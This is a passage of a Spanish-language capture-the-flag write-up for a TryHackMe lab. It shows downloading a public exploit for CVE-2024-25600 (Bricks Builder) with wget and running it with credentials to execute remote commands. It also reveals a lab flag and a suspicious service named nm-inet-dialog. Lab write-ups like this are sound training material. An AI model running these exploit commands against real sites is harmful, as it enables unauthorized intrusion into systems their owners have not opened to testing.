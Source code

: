 
DNS Name
secrethelpdesk934752.support.futurevera.thm


## 🔓 5. Explotación


Usamos el exploit público para el CVE-2024-25600:


```shell
wget https://raw.githubusercontent.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT/main/CVE-2024-25600.py
```


---


Al ejecutarlo con credenciales válidas, logramos ejecutar comandos remotos y abrir una **shell interactiva**:


```shell
python3 CVE-2024-25600.py --url https://bricks.thm --username administrator --password ***** --cmd id
```


## 🐚 6. Post-explotación


### 
Accedemos a `/var/www/html/` y encontramos la flag inicial:


```plain text
THM{fl46_650c844110baced87e1606453b93f22a}
```


---


## 🔍 7. Proceso y servicio sospechoso


Revisamos los procesos activos y servicios del sistema, encontrando uno sospechoso:


```shell
ubuntu.service - TRYHACK3M
ExecStart=/lib/NetworkManager/nm-inet-dialog
```


---


El proceso asociado es: `nm-inet-dialog`.


---
